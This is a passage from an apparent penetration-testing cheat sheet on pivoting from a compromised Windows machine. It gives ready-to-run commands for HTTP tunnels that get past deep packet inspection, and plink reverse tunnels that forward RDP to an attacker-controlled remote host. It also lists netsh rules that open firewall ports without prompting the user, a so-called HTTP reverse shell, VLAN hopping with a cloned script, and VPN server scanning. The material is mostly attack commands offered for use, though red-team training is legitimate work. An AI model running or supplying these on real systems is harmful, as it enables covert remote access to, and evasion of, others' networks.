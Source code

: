 -   Traffic Encapsulation - Bypassing deep packet inspection

    -   http tunnel
        On server side:
        `sudo hts -F <server ip addr>:<port of your app> 80  `
        On client side:
        `sudo htc -P <my proxy.com:proxy port> -F <port of your app> <server ip addr>:80 stunnel`

-   Tunnel Remote Desktop (RDP) from a Popped Windows machine to your
    network

    -   Tunnel on port 22

        `plink -l root -pw pass -R 3389:<localhost>:3389 <remote host>`

    -   Port 22 blocked? Try port 80? or 443?

        `plink -l root -pw 23847sd98sdf987sf98732 -R 3389:<local host>:3389 <remote host> -P80`

-   Tunnel Remote Desktop (RDP) from a Popped Windows using HTTP Tunnel
    (bypass deep packet inspection)

    -   Windows machine add required firewall rules without prompting the user

    -   `netsh advfirewall firewall add rule name="httptunnel_client" dir=in action=allow program="httptunnel_client.exe" enable=yes`

    -   `netsh advfirewall firewall add rule name="3000" dir=in action=allow protocol=TCP localport=3000`

    -   `netsh advfirewall firewall add rule name="1080" dir=in action=allow protocol=TCP localport=1080`

    -   `netsh advfirewall firewall add rule name="1079" dir=in action=allow protocol=TCP localport=1079`

    -   Start the http tunnel client

         `httptunnel_client.exe`

    -   Create HTTP reverse shell by connecting to localhost port 3000

        `plink -l root -pw 23847sd98sdf987sf98732 -R 3389:<local host>:3389 <remote host> -P 3000`

-   VLAN Hopping

    -   ```bash
        git clone https://github.com/nccgroup/vlan-hopping.git
        chmod 700 frogger.sh
        ./frogger.sh
        ```


-   VPN Hacking

    -   Identify VPN servers:
        `./udp-protocol-scanner.pl -p ike $ip`

    -   Scan a range for VPN servers:
        `./udp-protocol-scanner.pl -p ike -f ip.txt`
